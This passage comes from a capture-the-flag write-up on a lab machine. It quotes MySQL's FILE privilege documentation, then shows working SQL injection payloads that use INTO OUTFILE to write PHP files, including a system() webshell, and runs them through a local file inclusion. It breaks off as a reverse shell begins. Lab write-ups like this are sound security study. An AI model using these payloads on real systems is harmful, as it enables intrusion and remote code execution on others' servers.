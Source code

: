It’s a bit hard to read in that screenshot, but one privilege jumps out:

The [FILE](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html#priv_file) privilege:

> Affects the following operations and server behaviors:
>
> - Enables reading and writing files on the server host using the [`LOAD DATA`](https://dev.mysql.com/doc/refman/8.0/en/load-data.html) and [`SELECT ... INTO OUTFILE`](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) statements and the [`LOAD_FILE()`](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) function. A user who has the [`FILE`](https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html#priv_file) privilege can read any file on the server host that is either world-readable or readable by the MySQL server. (This implies the user can read any file in any database directory, because the server can access any of those files.)
> - Enables creating new files in any directory where the MySQL server has write access. This includes the server’s data directory containing the files that implement the privilege tables.
> - Enables use of the `DATA DIRECTORY` or `INDEX DIRECTORY` table option for the [`CREATE TABLE`](https://dev.mysql.com/doc/refman/8.0/en/create-table.html) statement.

#### PHP POC

I want a PHP webshell. As a quick test, I’ll write a quick PHP file into `/dev/shm` with:

```
id=%0A100'+union+select+"<?php+phpinfo();+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/0xdf.php";--+-1

```

It returns “Product does not exist!”, which means it worked. If I try to write to the same file again, it will return an empty page, which indicates failure. It doesn’t want to overwrite existing files.

I’ll now load that using the LFI identified [above](#analysis) with `http://10.10.11.229/shop/index.php?page=/dev/shm/0xdf`:

[![image-20240110110422182](https://0xdf.gitlab.io/img/image-20240110110422182.png)](https://0xdf.gitlab.io/img/image-20240110110422182.png)

That’s executing my PHP to show the info. That’s code execution.

It’s worth nothing that while this works in `/dev/shm`, it won’t work in `/tmp`, because Apache’s using a sandboxed `tmp` directory, `SYSTEMD_PRIVATE`. .

#### Webshell / Shell

To get a webshell, I’ll change the injection to write a webshell:

```
id=%0A100'+union+select+"<?php+system($_REQUEST['cmd']);+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/shell.php";--+-1

```

Now to execute it I’ll just visit it with `cmd=id`:

![image-20240110111010789](https://0xdf.gitlab.io/img/image-20240110111010789.png)

To turn that into a shell, I’ll start `nc` and update the `cmd` to a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):
